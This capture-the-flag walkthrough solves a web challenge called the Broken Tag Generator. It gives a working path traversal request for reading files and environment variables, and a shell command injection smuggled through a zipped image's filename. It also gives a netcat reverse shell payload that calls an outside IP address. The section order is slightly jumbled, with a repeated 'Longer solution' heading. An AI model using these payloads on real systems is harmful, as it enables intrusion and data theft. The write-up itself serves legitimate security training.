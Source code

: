 # Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!

    The tag generator is acting up.

    I feel like the issue has something to do with weird files being uploaded.

    Can you help me figure out what's wrong?
    


## Hints

??? hint "Patience and Timing - Holly Evergreen"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis - Holly Evergreen"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration - Holly Evergreen"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha - Holly Evergreen"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure - Holly Evergreen"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism - Holly Evergreen"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval - Holly Evergreen"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download - Holly Evergreen"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a reverse shell. We'll explore both options! :smile:

### Path Traversal

Start by analyzing the [app.js](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint (line 7) with `id` being a randomly generated value that identifies the image. 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('<img id="dynamic">');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```

### Short solution

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:

![Short solution](../img/objectives/o8/solution_short.png)


### Longer solution

An HTTP request using an invalid `id` value will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.

![HTTP request error](../img/objectives/o8/raw_response.png)

!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test” cannot be displayed because it contains errors.
    ```




!!! done "Answer"
    JackFrostWasHere

!!! quote "Noel Boetie"
    Yay! You found the flaw!
    
    We'll work on fixing it.







----------


### Longer solution
We can also use the path traversal on `/image?id=` to grab the `app.rb` Ruby file using [](https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb). Now that we have the backend source code we can check for vulnerabilities to exploit here as well. The most interesting one is the `system()` call which will allow us to execute arbitrary code since it uses the `filename` variable as-is.

```ruby
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Similar to how SQL injection works, we need to make sure we don't mess up the quotes. If we want our code to be run we need to make sure it looks something like `myfile';command_to_run;ls '`.

1. `myfile';`: close the quote and end the convert command with `;`
2. `command_to_run;`: insert the command you want to run on the server, end with a `;`
3. `ls '`: make sure the second quote is closed as well

How do we get to this portion of the code though? The reverse order of the function calls is `handle_image`, `process_file`, `process_files`, and finally the `/upload` application endpoint. If we can get a file with a specific filename to the `system()` function, we can force the application to run our custom code.

There's a caveat though. File uploads get a random file name so whatever we call our image file, it ultimately gets changed into something else. The solution is to zip the file and upload that instead. It doesn't matter what the uploaded zip file gets renamed to, its contents will remain intact, especially since Jack Frost commented out the filename validation code in the `handle_zip()` function.

``` ruby
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end
```

We can now get the value of the `GREETZ` environment variable by creating an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png` which writes the `GREETZ` envvar to `/tmp/the_GREETZ_tag.txt`, add it to a zip file, and upload it using the tag generator application. Once the zip is unpacked and the image file used as a parameter to the `convert` system command, the `echo $GREETZ>the_GREETZ_tag.txt` code will be executed. We can't specify a full output path since forward slash characters can't be put in the file name. However, the code tells us that the working directory is `/tmp`. So we can just drop our file there and then use the previous path traversal trick to grab it from there

```ruby
TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

# Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER
```

Upload the file and request [](https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt). The response contains the string 'JackFrostWasHere', which is the answer to the challenge.

### But wait, there's more!
Knowing how to bypass the application to get remote code execution, we can leverage this technique to get a reverse shell with full interactive access to the challenge host. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/bash`, but we already established that forward slashes are not an option. The workaround is to use `which` to ask the system what the shell binary path is, instead of specifying it ourselves. Our image file name now becomes `myfile';nc 1.2.3.4 55100 -e ``which sh``;ls '.png`. Set up a local listener using `nc -nlvp 55100`, upload the zipped image file, and wait for the reverse shell connection to be established.

![ImageName](../path/to/image/o8_1.png)

